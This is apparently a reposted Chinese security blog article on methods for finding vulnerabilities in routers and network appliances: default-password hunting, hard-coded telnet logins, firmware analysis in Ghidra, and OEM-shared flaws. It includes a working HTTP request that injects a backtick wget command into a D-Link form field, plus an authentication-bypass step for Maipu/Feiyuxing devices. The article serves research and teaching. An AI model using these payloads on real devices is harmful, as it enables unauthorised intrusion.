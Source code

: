 #  【总结】设备漏洞挖掘思路   
 黑白之道   2024-08-16 09:57  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
  
在日常渗透过程中，可能会遇到各种路由，上网行为管理等设备，这时候该怎么去对这些设备进去快速挖掘就成为我们想要解决的问题  
## 1.信息收集  
### 1.1 弱口令搜索  
  
对于设备黑盒来说，信息收集也是一个比较重要的过程，更多的时候可以去寻找web后台密码，一些设备可以得到比如通过寻找网上的用户指导手册可得，如  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyuxxxIgDhzMjcCDKickeahln7uUEg03vicwzwcxoxuA5Vfd3FcuYJENdg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyTwIAPGKe72wkrsnUNneibzJIiaGF8sFvoZlPI3rTgPXd6lxHcIByiaBeg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
也可以通过cnvd以及cve查找相应弱口令设备然后进入fofa或者hunter等搜索引擎搜索到未修复的弱口令进入后台挖掘，因为更多的功能点只能在后台更好的做测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyAEBghicrXgHJ4QBM46RF5gtu1frILgVtcyGeJmLxJoo2TQfFGQqJrUw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmygu2Hjht8zQZlLfEUf455kYICgy72voo0V7kLuTGLeL9EQwx2xyteeQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
### 1.2 硬编码问题  
  
设备常常会开启一些如telnet,ssh服务，也可能在初始化时会以硬编码的方式开启这些服务端口，允许设备被远程连接，也可能是开发者在调试的一些隐藏后门  
例如wayos微盟路由器固件出现过的  
mqtt  
协议泄露账户的漏洞  
在做固件的仿真模拟执行ps的时候看到了该系统仿真后的shell开启了相关的telnet服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyAxYRkERMF2ppMzuicRd8I9ffochp5MhicOncmMZNDc7F86PondvuTPpA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
也在初始化文件中看到确实有该操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyicoVjajDiba1gHcwK5gC56savc0bS0UvcFcFWrmhRiae6Fdx3ic125KT6w/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
如图我们看到了确实wayos启动了该telnet服务，利用对字符寻找找到了以下文件，对以下文件进行简单分析目标锁定在了mqtt_ai文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyicgUCsQPdoKspibianlicg6Msje1bF8XHjpLmjX7hlXXo9HVGmq8ylF4sw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
通过对函数的简单寻找锁定到该函数mqtt_ai_sw_telnet_login  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyB3gApVSfHPqbabiaRmcteh8dnuqQbZJts3iaGzlSE6uZ64H1djztXZ9g/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
对该函数进行简单分析后，该while函数似乎是对telnet登录的一个校验操作  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyDsiciagiabgrBXkOz0NV9SxgtWmRRNAzwRbV4cfVTtAg1jMWfbibymSjmw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
使用该硬编码后登录了该设备的telnet服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyFvVHeicoyyN9iauIMRDicOewrBNLK2oVc1hqyeXCMCq4wCobIs4ia4elTw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
ssh密码寻找，该设备也可能会开启ssh，我们在做仿真模拟的时候，可以查看/etc/shadow文件，也可以试着解密这密码进行漏洞挖掘  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyMLcicZF9IcxSRiciaGXxHK84KWjUySNqHdJbn6JH8l6AzkwX8G6ycwiaVg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
## 2.相同组件及OEM框架挖掘  
  
这是我们每个人都会忽略的点，正如我们挖web的时候，挖java的站点我们常常会想到一些fastjson，log4j2这种会造成漏洞的组件漏洞，以及类似springboot框架类似的框架型漏洞，对于我来说我们所说的设备也有所谓的组件以及框架。  
### 2.1 组件漏洞问题  
  
相对于设备来说也有其相应的组件，我们在做设备挖掘，设备可能会有相应的功能点，正如我以下想说的usb共享存储组件导致的命令执行漏洞，以下举例微盟的路由器以及dlink的路由器进行举例  
首先发现了微盟的路由器有该相关漏洞在寻找前台路由器挖掘时，发现了dlink路由器的用户指导手册中具有相同的功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy4UuH7wqp7lxbcVtIicsJc2oicveLJn8icDicibAichkgOHnhEHIosTibhQubg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
将dlink固件拉下解开固件包后寻找漏洞路径字符，发现该组件也拥有相同漏洞路径字符  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyxRfxm4aW9mfISdPAADyKV4kiblOKcfwjBnq9cNdnJUiam9jgHVAPofFw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
进入审计  
首先对该固件丢入ghidra进入分析，在Function栏过滤出主要执行函数system，对该函数点击交叉引用，  
得到所有调用system函数的位置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyzYZSgrRdOsIKx7tWhEG4GHPVXtIbfGYyIYwIcp17943kgCXHMsWcsA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
开始反溯system执行的命令中含有可控数据流部分，通过逐个调用点反编译，发现以下可控数据流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmybKbvTNlQy5QUs2bWpib5vsJTtQ0n4QErGzJfmObhicQ3tP4dd189ssXQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
这段代码的本来主要目的是设置Samba服务器的用户名。它首先获取两个全局变量的值，然后使用echo  
命令将这些值写入/etc/smbusers文件。这样，Samba服务器就可以使用这些用户名进行身份验证，但从  
该  
伪代码  
可以看出用户输入获取usb_username和use_husername没有进行完全过滤，拼接的命令直接作  
为system()参数执行，故此可能引发命令注入  
往下看我们可以发现该输出代码从用户输入的hname函数中获取  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyZJymNMsdUWjWoKE30btIcd7LZGctSn5fibyMhv2ZUsP8BWDchCXwHvw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
使用  
poc  
进行wget请求  
```
GET /usb_paswd.asp?share_enable=1&passwd=123456&name=login&hpasswd=123456&hname=hlogin%60wget%20http%3A%2F%2F192.168.1.2%3A8000%60&acc_ip=&acc_mac=&acc_wan=0&acc_auth=0&send_email_en=0&send_email_name=0&send_email_pwd=0&device_name=&_=1663771596225 HTTP/1.1

Host:192.168.1.1

User-Agent:Mozilla/5.0(X11;Ubuntu;Linux x86_64; rv:104.0)Gecko/20100101Firefox/104.0

Accept: application/json, text/javascript,*/*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/index.htm

Cookie: userid=root; gw_userid=root,gw_passwd=0C667259F7A2069B7C55AB5D95F2FE7B
```  
  
本机先起一个服务，发送上述数据包发现该被攻击机对攻击机服务器发起了服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmybOGK3wcdRhD7s26sR5Cficiba2xNGCwoXtz6UNYtdNV71emias50D534Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
### 2.1 OEM漏洞问题  
  
正如上述所说，设备也有属于自己的框架，我们可以通过相应的，可以通过寻找一些cve或者cnvd的路由器进行获取一些js获取得到一些类似的系统设备的相同漏洞，或者rce之后做白盒审计发现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy8QTB1oxFelFVZzSVnaOezniascnWnaEZCNmoXnUyJf2CPu7vJHVNr8A/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
如最近的迈普的多业务融合系统和飞鱼星的企业智能上网行为管理的相同漏洞，根据一些引用的静态文件，寻找到两种设备都为使用相同OEM  
飞鱼星飞鱼星企业级智能上网行为管理系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6NialmyRicwrtJia5txvD1sXjXJwk5PiaHAc2HDDI0UBrBnoIJ79QXhKzCNw4w7Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
迈普多业务融合系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyznesd15tzrhXPafafMRTHWfKQzNnmWdR9QfBwLeYztiaqmHrFcAa19Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyl42n1gY4WCB6q1CFPknibSP8jbiagHZhkdarial0sXOZUAwchhiaYHQS0Q/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
发现飞鱼星漏洞在迈普依旧可以使用，如该权限绕过漏洞  
迈普多业务融合系统存在权限绕过(未公开poc，通过飞鱼星反溯得到)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmy46NFz5UwPBaeo3aytlGm9dEItYleibHyMQIJWqFHXiaMx4XMkpHqn7EA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
然后访问   
http://xxx/home/index.htm,丢弃cookie.cgi相同包可以绕过设备登录校验  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmywwiaz6Vicu0KsevAmibtCXvgO9ibhXbCQrLZDj9ibekHVurjJdm9O07ZvOA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKubPiaqtsZHgNGNVicMic6Nialmyofgicbsr9ic58jjNT2G8RFrVRKukg3lXWBb4xt55uKfa7y2OSEfJFnnw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
> **文章来源：先知社区**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
